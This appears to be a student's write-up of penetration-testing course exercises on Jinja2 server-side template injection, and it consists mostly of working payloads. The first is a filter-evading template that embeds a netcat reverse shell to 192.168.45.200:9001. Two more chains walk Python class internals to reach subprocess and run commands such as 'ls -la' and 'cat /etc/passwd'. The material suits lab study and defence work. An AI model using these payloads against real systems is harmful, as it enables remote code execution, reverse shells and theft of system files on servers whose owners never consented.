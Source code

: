 Ascii Encoding of special characters: 

```python
{% set shellcode = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2\x3e\x261|nc 192.168.45.200 9001 \x3e/tmp/f" %}
```

### Exercise 8.6.1.1

*Find other classes that you can use to obtain sensitive information about the system or
execute commands against the system*

The `BuiltinImporter` class can be used to import modules, including os or subprocess to gain RCE or file read. 

```python
{% set string = "test" %}
{% set class_template = "\x5f\x5fclass\x5f\x5f" %}
{% set mro_template = "\x5f\x5fmro\x5f\x5f" %}
{% set subclasses_template = "\x5f\x5fsubclasses\x5f\x5f" %}
{% set mro = string|attr(class_template)|attr(mro_template) %}
{% set subclasses = mro[1]|attr(subclasses_template)() %}
{% set builtins = subclasses[67]%}
{% set subprocess= builtins|attr("load_module")("subprocess") %}
{{subprocess.run("ls -la", shell=True, stdout=subprocess.PIPE).stdout}}
```

### Extra Mile 8.6.2.2

*Using the Python and Jinja documentation, make changes to the template that will allow the
output to display in the response.*

If we have the subprocess parent module (rather than just the Popen class), we’ll be able to pipe our stdout back into our object to gain full RCE. We’ll do that by going through the `sys` module, which has the attribute `sys.modules` that allows us to access many common Python modules. Alternatively, we could access the `os` module, which also provides us with RCE. 

```python
{% set init_template = "__init__" %}
{% set global_template = "__globals__" %}
{% set attr = self|attr(init_template)|attr(global_template) %}
{% set sys = attr.sys %}
{% set modules = sys|attr("modules") %}
{% set subprocess = modules.subprocess %}
{{subprocess.run("cat /etc/passwd", shell=True, stdout=subprocess.PIPE).stdout}}
```